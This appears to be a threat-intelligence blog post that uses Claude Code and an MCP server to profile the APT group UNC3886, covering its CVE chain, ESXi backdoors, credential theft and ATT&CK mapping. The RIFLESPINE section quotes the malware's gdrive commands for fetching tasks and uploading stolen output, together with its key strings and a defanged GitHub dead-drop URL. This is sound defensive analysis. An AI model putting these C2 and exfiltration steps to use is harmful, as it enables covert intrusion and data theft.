







Being deeply interested in threat hunt and threat intel, I was always curious about how we can leverage AI solutions to deepen the process of intelligence gathering. With the hype now about genAI, and Anthropic's new model "Mythos", I hope to explore more about Claude Code's capabilities in day to day intelligence work. In this blog post, I will be utilising MCP-ThreatIntel and open source intelligence to analyse APT group, UNC3886.
Understanding What MCP Is
The Model Context Protocol (MCP) is a framework that allows AI systems to directly interact with external tools, APIs, and datasets instead of relying on copy-paste workflows.
Before MCP:
- You search for threat intel manually
- Copy results into ChatGPT/Claude
- Ask for analysis
- Go back and forth
After MCP:
- The AI queries threat feeds directly
- Correlates data automatically
- Produces actionable insights seamlessly
Using MCP-ThreatIntel by Pete-Builds
As someone that is just hopping into the scene of CTI, there's various reputable vendors to check/cross ref IOCs, CVEs, etc. Recently, I came across a project that integrate CTI directly into AI workflows using MCP. In simple terms, it allows an AI assistant to behave like a real threat analyst.
The workflow:
- LLM → Tool Invocation (via MCP) — The model identifies intent (e.g. IOC lookup) and calls a registered MCP tool.
- MCP Server → Function Dispatch — The MCP-ThreatIntel server receives the request & maps it to a specific handler (e.g. lookup_ip, lookup_cve).
- Data Retrieval Layer — Queries local cache (SQLite) for pre-ingested feeds. Optionally calls external APIs (OTX, AbuseIPDB, HIBP, etc.). Performs normalization + enrichment.
- Aggregation & Structuring — Results are correlated, deduplicated, and returned in structured JSON (reputation, tags, related indicators, CVEs, etc.)
- LLM Reasoning Layer — The LLM consumes the structured output and generates contextual analysis (risk, attribution hints, recommended actions)
Using MCP In Claude Code
Upon setting up the integration of MCP within Claude Code, we can prompt it to create a threat intelligence report, with the information aggregated from intelligence vendors via APIs and open source blog posts.

Who is UNC3886
An APT group that is widely suspected to be linked to Chinese-linked cyber espionage group, UNC3886 was first detected in 2021-2022 by Mandiant. A short synopsis, UNC3886 attempts are known to be persistent with the intention of intelligence gathering and long term spying.
In the compiled threat intelligence report from Claude Code analyst:

Key Attack Chains (Overview)

Step 1 — Initial Foothold on Network Edge Router
For initial foothold, the APT group targeted network edge devices. They utilised CVE-2022-42475, a Fortinet FortiOS SSL-VPN vulnerability (heap buffer overflow) that gave them unauthenticated remote code execution on the perimeter.
According to Fortiguard (https://www.fortiguard.com/psirt/FG-IR-22-398), these are the common IOCs and artifacts leftover on the target:

Fortinet themselves (https://www.fortinet.com/blog/psirt-blogs/analysis-of-fg-ir-22-398-fortios-heap-based-buffer-overflow-in-sslvpnd) have commenced on an incident analysis, and confirmed the following common telltales:

Step 2 — Targeting vCenter Server
To understand this portion, we first have to know what vCenter is. vCenter Server is a centralised management utility by VMware that is mainly used to manage VMs, multiple ESXi hosts (physical hardware, bare-metal servers, dedicated to running many VMs simultaneously).
Now, once the attackers are inside the network, they targeted vCenter with 2 particular CVEs:
| CVE | What it did |
|---|---|
CVE-2023-34048 |
Out-of-bounds write vulnerability in vCenter's DCERPC protocol — gave full Remote Code Execution on vCenter. This is how they owned the vCenter server itself |
CVE-2022-22948 |
Incorrect file permissions in vCenter that allowed credential extraction directly from the vCenter database |
Step 3 — Harvesting vpxuser Credentials
VMware vCenter Server is commonly enabled with 3 accounts — root, dcui (required or direct console service isolation, non-removable), and vpxuser (required for administration by vCenter Server).
(Snippet taken from VMware vSphere Official Documentation: https://www.vmware.com/docs/default-accounts-in-vmware-vsphere)

The attackers managed to extract cleartext credentials of the vpxuser stored in the vCenter database, meaning that they can essentially authenticate to every ESXi host.
However, note that these credentials can allow them access to the ESXi host management layer, not the guest VMs themselves! With vpxuser credentials, attackers can turn VMs on/off, deploy VIBs, etc. Guest VMs are separate isolated environments running on top of the ESXi host, so just because we have the credentials to the hypervisor, it doesn't automatically mean we can execute commands inside the VMs running on it (they have their own OS, credentials, and file system).
Step 4 — Deploying Malicious VIB Implants for Persistence on ESXi Hosts
Once inside the ESXi hosts (hypervisor layer), the APT group installed malicious VIBs (vSphere Installation Bundles) to maintain persistence. According to intel sources online, the 2 VIBs heavily utilised were VIRTUALPITA and VIRTUALPIE.
(Photo by: https://cloud.google.com/blog/topics/threat-intelligence/esxi-hypervisors-malware-persistence)

VIRTUALPITA
- a 64-bit passive backdoor that creates a listener on hardcoded port number on VMware ESXi server
- Often utilises VMware service names and ports to masquerade as a legitimate service
- Malware auto sets env variable HISTFILE to 0 to further hide activities
VIRTUALPIE
- a lightweight backdoor written in Python
- Spawns demonised IPv6 listener on hardcoded port on VMware ESXi server
- Supported arbitrary command line execution, file transfer, revshells, etc.
- Communicates using a custom protocol, encrypted using RC4
Step 5 — Exploit to Reach Guest VMs
Now, to get into the guest VM machines, UNC3886 utilised CVE-2023-20867 to execute privileged guest operations, without the need to even authenticate into the guest VMs.
According to Mandiant, the only requirements needed to exploit this vulnerability are:
- The attacker has privileged account access (such as root or the vpxuser) to the ESXi host
- The target guest machine has VMware Tools software installed
The architecture will look something like this:
ESXi Host ← VIBs installed here, survives reboots
│
├── Guest VM 1 ← Access via CVE-2023-20867
├── Guest VM 2 ← same
└── Guest VM 3 ← sameStep 6 — … pwned …
With access to the guest VMs now, attackers were able to run unauthenticated, privileged commands, and transferred files in/out freely. In an attempt to uncover / perform further lateral movements, UNC3886 utilised a few tactics to harvest more credentials:
- LSASS memory dumping via Rundll32 on Windows guests to harvest more credentials
- File staging: credentials and data were archived (seen as
ldapd<keyword>.2.gzfiles) - Using those harvested credentials via PITHOOK and LOOKOVER for further lateral movement across the broader network
Defense Evasion, and What This Means for Defenders
According to Mandiant's discovery, UNC3886 was observed to utilise malware that primarily chains with trusted third party tools (i.e., Google Drive, GitHub) as C2 communications in an attempt to mask its tracks. In particular, MOPSLED and RIFLESPINE were utilised.
MOPSLED
MOPSLED is a backdoor with capabilities to communicate over HTTP, or custom binary protocol to the attacker's C2 server. There is a Linux variant of this malware, called MOPSLED.LINUX. UNC3886 deployed this Linux variant on vCenter servers and a small number of compromised endpoints. It is used to communicate with a URL to retrieve an actual C2 address. Attackers sent HTTP GET requests to a known address, https://cyberponke.github[.]io/*. Upon retrieving the details, the response is decrypted using ChaCha20 cipher to obtain the attacker's actual C2 address.
RIFLESPINE
RIFLESPINE is yet another backdoor malware leveraged by UNC3886. Instead of retrieving from GitHub like MOPSLED, it leverages Google Drive to execute commands and transfer files. This is done through an open source Google Drive CLI client, where a systemd service file was created and used to execute the malware. Upon installation for the first time, the malware collects system information and reads instructions to execute.
Mandiant wrote a writeup regarding the common steps/flow of RIFLESPINE, as shown below:
- Execute
gdriveto obtain the file pertinent to the target endpoint with the following command:gdrive --refresh-token <token> list | grep "2@<mac_address>" - Write the filename to a temporary file
/tmp/syslog<random_number>.rs. - Download file to
/tmpmatching the filename with the following command:gdrive --refresh-token <token> download --path "/tmp" -f - Decrypt file
/tmp/<filename>to/tmp/<download_filename>.deusing CryptoPP AES-CBC with keylibcrypt.so.2and IVlibev.so.5. - Read
/tmp/<download_filename>.deline by line for instructions to execute. - After executing the instructions, write output to
/tmp/update<random_number>.tmp. - Encrypt response from
/tmp/update<random_number>.tmpto/tmp/update<random_number>.tmp.enusing the same AES keys as decryption. - Upload encrypted response with the following command:
gdrive --refresh-token <token> upload --name "/tmp/update<random_number>.tmp.en" - Delay and repeat the previous steps.
MITRE ATT&CK Mapping (G1048)
75 confirmed techniques across 14 tactics. Highest-priority techniques for detection highlighted below.
| Technique ID | Name | UNC3886 Usage | Priority |
|---|---|---|---|
| INITIAL ACCESS | |||
T1190 |
Exploit Public-Facing Application | CVE-2022-42475 FortiOS SSL-VPN exploitation | Critical |
T1078 |
Valid Accounts | Harvested credentials via PITHOOK/LOOKOVER reused for lateral movement | Critical |
| EXECUTION | |||
T1059.008 |
Network Device CLI | Accesses Junos OS CLI on Juniper devices for configuration and implant deployment | High |
T1059.012 |
Hypervisor CLI | Uses esxcli for firewall rules, malware installation, and artifact removal | High |
T1675 |
ESXi Administration Command | Uses vmtoolsd.exe to execute commands on guest VMs from compromised ESXi hypervisor | Critical |
| PERSISTENCE | |||
T1505.006 |
vSphere Installation Bundles | Deploys malicious VIBs with tampered XML signature bypass on ESXi hosts | Critical |
T1554 |
Compromise Host Software Binary | Backdoors Junos OS daemons, FortiOS firmware, OpenSSH binaries | Critical |
T1037.004 |
RC Scripts | Installs persistence scripts in /etc/rc.local.d/ on ESXi | High |
| PRIVILEGE ESCALATION | |||
T1055 |
Process Injection | CVE-2025-21590 exploited for code injection bypassing Veriexec on Junos OS | Critical |
T1068 |
Exploitation for Privilege Escalation | CVE-2023-20867 used for privileged command execution on VMware guest VMs | Critical |
| DEFENSE EVASION | |||
T1014 |
Rootkit | REPTILE (kernel) and MEDUSA (LD_PRELOAD) for deep stealth persistence | Critical |
T1070.007 |
Clear Network Connection History | Clears logs containing actor IP addresses | High |
T1070.006 |
Timestomp | Timestomps ESXi artifacts before VIB installation | High |
T1562.003 |
Impair Command History Logging | Clears HISTFILE; yum-versionlock freezes backdoored OpenSSH packages | High |
T1681 |
Search Threat Vendor Data | Monitors published TI; replaces burned IOCs within ~1 week | High |
T1036.004 |
Masquerade Task or Service | CASTLETAP named 'fgfm' to mimic legitimate FortiGate 'fgfmd' service | High |
| CREDENTIAL ACCESS | |||
T1040 |
Network Sniffing | LOOKOVER sniffs TACACS+ traffic; passive backdoor sniffing | High |
T1003.001 |
LSASS Memory | MiniDump via Rundll32 for process memory and credential extraction on Windows guests | High |
| COMMAND & CONTROL | |||
T1090.003 |
Multi-hop Proxy | ORB (Operational Relay Box) networks used to obscure true C2 origin | High |
T1205.001 |
Port Knocking | CASTLETAP and TABLEFLIP activate dormant backdoors via ICMP magic packets | High |
T1571 |
Non-Standard Port | TINYSHELL binds to TCP port 45678 by default | Medium |
T1102 |
Web Service (Cloud C2) | RIFLESPINE uses Google Drive; dead-drop resolvers on GitHub Pages | Critical |